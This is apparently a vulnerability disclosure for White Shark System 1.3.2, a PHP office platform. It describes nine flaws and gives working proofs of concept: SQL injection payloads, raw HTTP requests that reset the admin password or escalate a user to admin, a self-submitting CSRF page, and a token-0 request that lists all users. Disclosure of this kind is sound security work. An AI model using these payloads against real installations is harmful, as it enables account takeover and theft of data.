###White Shark System(wss) Multiple Vulnerability

####General description：

White Shark System(wss) is a browser-based collaborative office platform that integrates "project management", "task management", "work management" and "work log management".

**[1]White Shark System(wss) 1.3.2 has a SQL injection vulnerability. The vulnerability stems from the control_task.php, control_project.php, default_user.php files failing to filter the sort parameter, remote attackers can exploit the vulnerability to obtain database sensitive information.**

**[2]White Shark System(wss) 1.3.2 has a SQL injection vulnerability. The vulnerability stems from the default_task_edituser.php files failing to filter the csa_to_user parameter, remote attackers can exploit the vulnerability to obtain database sensitive information.**

**[3]White Shark System(wss) 1.3.2 has a SQL injection vulnerability. The vulnerability stems from the log_edit.php files failing to filter the csa_to_user parameter, remote attackers can exploit the vulnerability to obtain database sensitive information.**

**[4]White Shark System(wss) 1.3.2 has an unauthorized access vulnerability,remote attackers can modify the password of any user.**

**[5]White Shark System(wss) 1.3.2 has a cross-site request forgery vulnerability,remote attackers can use the user_edit_password.php file to modify the user password.**

**[6]White Shark System(wss) 1.3.2 has an unauthorized access vulnerability,remote attackers can exploit this vulnerability to escalate to admin privileges.**

**[7]White Shark System(wss) 1.3.2 has a sensitive information disclosure vulnerability,remote attackers can obtain username information for all users of the current site.**

**[8]White Shark System(wss) 1.3.2 has a sensitive information disclosure vulnerability,remote attackers can exploit the vulnerability to create a task.**

**[9]White Shark System(wss) 1.3.2 has web site physical path leakage vulnerability.**

_ _ _

**Environment: **
apache/php 7.0.12/White Shark System(wss) 1.3.2


_ _ _

**[1]SQL Injection Vulnerability**

The vulnerable file is control_task.php. (control_project.php, default_user.php)

In the control_task.php file:



On line 150, if the user submits the sort parameter, it is assigned to ```$sortlist```.

On line 284, the GetSQLValueString function is called to process ```$sortlist``` and assign it to ```$query_Recordset1```.




In the GetSQLValueString function of function.class.php, when theType is defined, it will return the value without processing.

Go back to the control_task.php file:

Line 289 data directly enters the database query,the injection vulnerability was caused by not filtering the data.

Request the following url:```/index.php?sort=1,extractvalue(rand(),concat(0x3a,substring(user(),1,30)))%23```


The current user is obtained by injection as root@localhost.

**[2]SQL Injection Vulnerability**

The vulnerable file is default_task_edituser.php.

The system can filter requests by default only after calling the GetSQLValueString function.

In the default_task_edituser.php file:



Line 5 restricts the user to one of "Guest" / "Ordinary User" / "Project Manager" / "Administrator".



Line 20 directly puts ```$_POST['csa_to_user']``` into the database for query, resulting in injection.

Initiate a POST request to submit the following data:
```
POST /default_task_edituser.php HTTP/1.1
Host: 127.0.0.1:8002
Connection: keep-alive
Content-Length: 79
Pragma: no-cache
Cache-Control: no-cache
Origin: http://127.0.0.1:8002
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/53.0.2785.104 Safari/537.36 Core/1.53.4295.400 QQBrowser/9.7.12661.400
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Referer: http://127.0.0.1:8002/default_user_edit.php?UID=2
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.8
Cookie: PHPSESSID=dob1mc5scckdktqjp6bif5dh64; csd=19

csa_to_user=1' and 1=(updatexml(1,concat(0x5e24,(select @@version),0x5e24),1))#
```

The current database version obtained by injection is 5.5.53:



**[3]SQL Injection Vulnerability**

The vulnerable file is log_edit.php.

In log_edit.php:



Line 5 restricts the user to one of "Guest" / "Ordinary User" / "Project Manager" / "Administrator".





On line 58, ```$logdate``` enters the database query without being processed by the GetSQLValueString function, resulting in injection.

Request the following url:
```/log_edit.php?date=1234/**/and/**/1=(updatexml(1,concat(0x5e24,(select%20@@version),0x5e24),1))--%20-&taskid= 1```



The current database version obtained by injection is 5.5.53.

**[4]Unauthorized Access Vulnerability**

In user_edit_password.php:



On line 24, the password is modified for the specified user by ```$_POST['ID']``` and the original password is not verified.
So you can override the password of someone else.

After logging in, send the following data:
```
POST /user_edit_password.php HTTP/1.1
Host: 127.0.0.1:8002
Connection: keep-alive
Content-Length: 69
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/53.0.2785.104 Safari/537.36 Core/1.53.4295.400 QQBrowser/9.7.12661.400
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Referer: http://127.0.0.1:8002/user_edit_password.php?UID=2
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.8
Cookie: PHPSESSID=dob1mc5scckdktqjp6bif5dh64; csd=21

tk_user_pass=a121314156&tk_user_pass2=a121314156&MM_update=form1&ID=1
```

The admin's password will be modified to a121314156.

**[5]CSRF Vulnerability**

Save the following as change.html:
```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://127.0.0.1:8002/user_edit_password.php?UID=1" method="POST">
      <input type="hidden" name="tk_user_pass" value="a1111111" />
      <input type="hidden" name="tk_user_pass2" value="a1111111" />
      <input type="hidden" name="MM_update" value="form1" />
      <input type="hidden" name="ID" value="1" />
    </form>
	<script>document.forms[0].submit();</script>
  </body>
</html>
```

After the admin accesses the page, the admin's password will be modified to a1111111.
If you want to modify someone else's password, modify the corresponding UID parameter.

**[6]Unauthorized Access Vulnerability**

In default_user_edit.php



Line 23 If the queried user uid does not match the current id or is not an admin, the operation is quit, and the user is prohibited from viewing other user details.



However, when the user's data update is performed on line 58, the user uid of the data to be updated is directly obtained from ```$_POST['ID']```, so that the information of others can be modified.

POST requests the following data:
```
POST /default_user_edit.php?UID=2 HTTP/1.1
Host: 127.0.0.1:8002
Connection: keep-alive
Content-Length: 179
Pragma: no-cache
Cache-Control: no-cache
Origin: http://127.0.0.1:8002
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/53.0.2785.104 Safari/537.36 Core/1.53.4295.400 QQBrowser/9.7.12661.400
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Referer: http://127.0.0.1:8002/default_user_edit.php?UID=2
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.8
Cookie: PHPSESSID=dob1mc5scckdktqjp6bif5dh64; csd=19

tk_display_name=changed_by_todaro&tk_user_contact=18010101010&tk_user_email=12%40qq.com&tk_user_remark=aaaaaaaaaaaaaaaaaa&tk_user_rank=3&submit=%E4%BF%9D%E5%AD%98&MM_update=form1&ID=1
```



You can modify the information of the admin user.

At the same time, you can upgrade the current user to the admin by modifying tk_user_rank to 5 when you modify your own information!

```
POST /default_user_edit.php?UID=2 HTTP/1.1
Host: 127.0.0.1:8002
Connection: keep-alive
Content-Length: 183
Pragma: no-cache
Cache-Control: no-cache
Origin: http://127.0.0.1:8002
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/53.0.2785.104 Safari/537.36 Core/1.53.4295.400 QQBrowser/9.7.12661.400
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Referer: http://127.0.0.1:8002/default_user_edit.php?UID=2
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.8
Cookie: PHPSESSID=dob1mc5scckdktqjp6bif5dh64; csd=19

tk_display_name=todaro&tk_user_contact=18010101010&tk_user_email=12%40qq.com&tk_user_remark=aaaaaaaaaaaaaaaaaa&tk_user_rank=5&submit=%E4%BF%9D%E5%AD%98&MM_update=form1&ID=2
```



**[7]Sensitive Information Disclosure Vulnerability**

The if_get_addbook.php file does not have an authentication operation.



Line 3 reads all the input via php://input;
Line 4 decodes the json data;
Line 7 checks the token value in json with the check_token function.

The check_token function is in /function.class.php:



By default, all users have a token of 0.



So the check_token function returns the uid of the user whose token is 0, which is the uid of all users by default.

Go back to if_get_addbook.php:





Line 11 calls the get_user_select function in function.class.php.

POST requests the following data:
```
POST /if_get_addbook.php HTTP/1.1
Host: 127.0.0.1:8002
Connection: keep-alive
Content-Length: 11
Pragma: no-cache
Cache-Control: no-cache
Origin: http://127.0.0.1:8002
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/53.0.2785.104 Safari/537.36 Core/1.53.4295.400 QQBrowser/9.7.12661.400
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Referer: http://127.0.0.1:8002/default_user_edit.php?UID=2
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.8
Cookie:

{"token":0}
```

Return information for all users:



**[8]Unauthorized Access Vulnerability**

The default_task_add.php file specifies the dispatcher by ```$_POST[‘csa_create_user’]``` when assigning the task, and ```$_POST[‘csa_create_user’] = 1``` can forge the task for the admin user.

POST requests the following data:
```
POST /default_task_add.php?projectID=1&UID=-1&touser=-1 HTTP/1.1
Host: 127.0.0.1:8002
Connection: keep-alive
Content-Length: 313
Pragma: no-cache
Cache-Control: no-cache
Origin: http://127.0.0.1:8002
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/53.0.2785.104 Safari/537.36 Core/1.53.4295.400 QQBrowser/9.7.12661.400
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Referer: http://127.0.0.1:8002/default_task_add.php?projectID=1&UID=-1&touser=-1
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.8
Cookie: PHPSESSID=dob1mc5scckdktqjp6bif5dh64; csd=1

csa_text=test_admin_create_project_by_todaro&csa_remark1=hhhh&csa_tag=ccccccc&csa_type=20&csa_to_dept=0001&csa_to_user=2&csa_from_dept=0001&csa_from_user=2&csa_create_user=1&csa_last_user=2&plan_start=2018-08-27&plan_end=2018-08-28&plan_hour=&csa_priority=3&csa_temp=3&csa_remark2=2&cont=ffff&MM_insert=form1
```



Created a task for admin through exploits.

**[9]**



/control_file.php




/control_log.php




/control_project.php




/control_task.php




/control_log.php




/tree.php




/control_task.php